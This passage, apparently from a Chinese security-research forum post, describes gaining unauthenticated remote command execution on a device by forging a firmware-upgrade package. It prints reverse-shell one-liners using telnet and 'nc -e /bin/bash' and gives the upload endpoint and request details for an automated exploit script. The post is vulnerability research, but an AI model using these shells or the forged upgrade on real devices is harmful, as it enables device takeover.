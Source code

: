 [![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b84f62913dd3452e94a3c8d8306cefae589f4dad.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-b84f62913dd3452e94a3c8d8306cefae589f4dad.png)  
由于CONTROL文件在压缩包中，这个值可控并且计算方式也很简单，这里直接调用命令即可生成。调用的`run.sh`文件也是在升级包中的，这里直接替换`run.sh`文件的内容为我们自己的命令，这样就可以实现任意命令执行了。最后使用tar cf命令打包即可，更新固件即可触发。

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f0d3a1042d4ef6a4395bdc23d6ce7e9bc45d228e.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f0d3a1042d4ef6a4395bdc23d6ce7e9bc45d228e.png)

按照分析的结果，写入反弹shell的命令到`run.sh`文件中。打包上传更新固件。等待shell出现，但是很遗憾，失败了。这里可能存在几种情况：

1. 升级过程中，设备没有网络;
2. 反弹shell的命令失败。

对于第一种，先修改为curl的请求试试。结果成功执行。说明网络是通的。

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7f5958c23aba33cd947fd89d36d8cb2d896380ff.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-7f5958c23aba33cd947fd89d36d8cb2d896380ff.png)

网络没问题，问题就简单了。更换不同的反弹shell命令试试。换了几种方式失败后，最终通过`telnet ip port1 | /bin/bash | telnet ip port2`成功反弹。真是激动人心的时刻。

这个反弹的原理就是监听两个端口，端口1的连接负责输入命令，端口2的连接接收输出。当然在后续的测试中，这个尽管可以成功，但是还有网络因素导致输出的端口连接失败的情况。但是这里影响不大，可以输入`nc ip port3 -e /bin/bash` 反弹回显端口。

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f1654614c139f6adf8743615be8b29d40f8602de.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-f1654614c139f6adf8743615be8b29d40f8602de.png)

### 一键root之漏洞脚本开发

通过以上两个漏洞，可以实现无需登录的远程命令执行。但是每次输入命令，都比较麻烦。还是写一个脚本来自动化利用。

脚本相对简单，linux系统，使用python的requests库可轻松实现。思路为，抓取固件更新的请求包，生成命令执行的epk文件，利用requests的post方法发送构造的请求。

流程如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0e15ae5b078b0e82740ed43667bf0d3152b64e09.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-0e15ae5b078b0e82740ed43667bf0d3152b64e09.png)

通过抓包确定，发送的url路径为`/cgi-bin/cgiServer?worker=FileDispatcher&nextWorker=FirmwareUpgrade&finalWorker=FirmwareUpgrade&finalIp=内网ip地址&treatOnlyThisStation=yes&uploading=true&longProcessing=true`

这里的内网ip地址，我首先使用127.0.0.1替换，但是，发现这样不行。再次抓包分析，这个ip地址可以通过访问`/cgi-bin/cgiServer?worker=FirmwareUpgradeForm`来获得。使用正则表达式提取即可。

[![](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8a713bf513dcbfd2d0fdfdfd1debf5898fcdd00c.png)](https://shs3.b.qianxin.com/attack_forum/2021/07/attach-8a713bf513dcbfd2d0fdfdfd1debf5898fcdd00c.png)

这个问题解决后，又出现了第二个问题，就是上传失败。没执行。继续抓包分析，通过对比burp抓的包和reqeusts发送的包进行对比，发现少了content-typ:application/octet-stream。通过设置请求头是无效的。这里要通过`files = {'fichier': ('r7_update_3.3.0.12_d4.epk',open('r7_update_3.3.0.12_d4.epk', 'rb'),"application/octet-stream")}`来设置就可以了。

0x05 漏洞影响
---------
